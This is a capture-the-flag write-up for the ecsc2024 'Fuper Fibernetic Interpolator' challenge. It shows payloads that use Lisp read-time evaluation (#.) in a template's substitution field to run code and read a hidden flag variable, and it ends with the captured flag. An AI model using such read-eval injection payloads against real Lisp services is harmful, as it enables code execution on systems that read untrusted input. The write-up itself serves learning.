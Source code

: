 #lisp  
# ecsc2024 - Fuper Fibernetic Interpolator
### Description  
We are proud to announfe a new verfion of our award winning ftring interpolator! Feel free to try it out through our public beta API! It's INDEFTRUCTIBLE  
Site: [http://fuperfiberneticinterpolator.challs.open.ecsc2024.it](http://fuperfiberneticinterpolator.challs.open.ecsc2024.it/)  
### Overview  
It's a website coded in lisp that allows to submit a template string and the substitutions to make in the string.  
### Road to flag 
The flag is commented on the index page -> include it in the template string.
### Exploitation
The app accepts a valid s-expression containing a template string and some substitutions to make in it.
```lisp
(
	:template "aaa {{sas}} aaa"
	:substitutions((:sas . "*flag*")(:day . "a"))
)
```
3. [Lisp's read dynamic evaluation](https://irreal.org/blog/?p=638)
```lisp
(
	:template "{x}"
	:substitutions(
		(:x . #.(flag) )
	)
)
----
(
	:template "{x}"
	:substitutions(
		(:x . #.(intern *flag*) )
	)
)

```
These payloads return a fake flag: `ziopera`.
Where is the flag?? :(
4. Specifying the package
```lisp
(
	:template "{x}"
	:substitutions(
		(:x . #.(intern app.web::*flag*) )
	)
)
```

`openECSC{F_3Xpr3Ff10Nf_4r3_1n_mY_n1ghtM4r3f_DB853630}`